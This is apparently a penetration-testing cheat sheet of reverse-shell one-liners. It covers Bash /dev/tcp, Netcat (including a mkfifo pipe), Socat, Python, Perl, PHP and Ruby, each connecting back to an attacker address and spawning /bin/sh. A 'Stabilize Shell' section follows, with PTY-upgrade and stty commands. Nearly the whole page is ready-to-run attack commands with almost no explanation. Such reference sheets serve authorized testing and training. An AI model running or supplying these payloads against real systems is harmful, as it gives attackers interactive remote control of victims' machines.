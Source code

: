 # Reverse Shells

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 # on attacker

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444 # on victim
```

#### Python

{% code overflow="wrap" %}
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

#### Perl

{% code overflow="wrap" %}
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
{% endcode %}

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

{% code overflow="wrap" %}
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
{% endcode %}



### Stabilize Shell

```bash
/bin/sh -i

echo os.system('/bin/bash')

exec "/bin/sh";

perl -e 'exec "/bin/sh";'

python -c 'import pty;pty.spawn("/bin/bash");'
```

* background the shell then find your terminal rows and columns with the following command
* `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'`
* `stty raw -echo`
* `fg` It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal by hitting the enter button once or twice
* `export SHELL=bash`
* `export TERM=xterm256-color`
* `stty rows 38 columns 116`

####

